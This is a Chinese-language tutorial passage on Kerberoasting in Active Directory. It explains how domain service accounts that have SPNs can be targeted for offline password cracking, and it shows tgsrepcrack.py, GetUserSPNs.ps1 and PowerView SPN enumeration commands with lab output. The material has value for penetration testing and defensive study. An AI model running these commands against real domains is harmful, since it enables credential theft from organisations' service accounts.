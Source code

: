 	https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
		python tgsrepcrack.py wordlist.txt sql.kirbi
	
## Kerberoasting - Kerberoast攻击的另一种姿势

我们通常不关心基于主机的SPN，因为计算机的机器帐户密码默认是随机的，每30天更换一次。

但是，请记住，也可以为域用户帐户注册任意的SPN。

一个常见的例子就是一个服务账户管理着多个MSSQL实例;此用户帐户注册的每个MSSQL实例都有一个<MSSQLSvc/HOST:PORT> 这样的SPN，

这个SPN存储在用户的serviceprincipalname属性里.如果我们有一个为域用户帐户注册的任意SPN，

那么该用户帐户的明文密码的NTLM哈希值就将用于创建服务票证	

注意的是： 任何具有服务主体名称SPN的域用户帐户都可以被该域中任何用户请求该SPN的TGS，

从而允许攻击者离线破解服务帐户的明文密码！这显然取决于一个可破解的服务帐户明文密码的复杂度
    
**老套的"Kerberoasting攻击姿势**
	
    给出的利用方法或工具包是使用工具集的组合来请求票证，并从内存中提取(使用Mimikatz)票证，然后将它们转换为可破解的格式。
	
一般来说，整个过程如下：

    a. 使用Tim的GetUserSPNS.ps1脚本或者Sean的Find-PSServiceAccounts.ps1脚本或PowerView的"Get-NetUser -SPN"来枚举域帐户的SPN。
    枚举域帐户的SPN :  
    > * GetUserSPNS.ps1 - https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
		PS C:\Users\Administrator\Desktop\kerberoast> . .\GetUserSPNs.ps1
			ServicePrincipalName : kadmin/changepw
			Name                 : krbtgt
			SAMAccountName       : krbtgt
			MemberOf             : CN=Denied RODC Password Replication Group,CN=Users,DC=demo,DC=local
			PasswordLastSet      : 9/13/2016 11:37:59 AM
			ServicePrincipalName : test/test
			Name                 : testwin10
			SAMAccountName       : testwin10
			MemberOf             :
			PasswordLastSet      : 1/12/2018 3:00:22 PM
    > * PowerView 的 Get-NetUser -SPN - https://github.com/PowerShellMafia/PowerSploit/blob/5690b09027b53a5932e42399f6943e03fa32e549/Recon/PowerView.ps1#L2087-L2089
		PS C:\Users\Administrator\Desktop\PowerSploit\Recon> Get-NetUser -spn
			objectsid              : S-1-5-21-1239069908-882060383-2558203358-502
			iscriticalsystemobject : True
			samaccounttype         : 805306368
			objectcategory         : CN=Person,CN=Schema,CN=Configuration,DC=demo,DC=local
			objectclass            : {top, person, organizationalPerson, user}
			logoncount             : 0
			lastlogon              : 1/1/1601 8:00:00 AM
			serviceprincipalname   : kadmin/changepw
			adspath                : LDAP://CN=krbtgt,CN=Users,DC=demo,DC=local
			dscorepropagationdata  : {1/12/2018 6:32:42 AM, 9/13/2016 4:06:37 AM, 9/13/2016 3:53:08 AM, 1/1/1601 12:00:00 AM}
			distinguishedname      : CN=krbtgt,CN=Users,DC=demo,DC=local
			....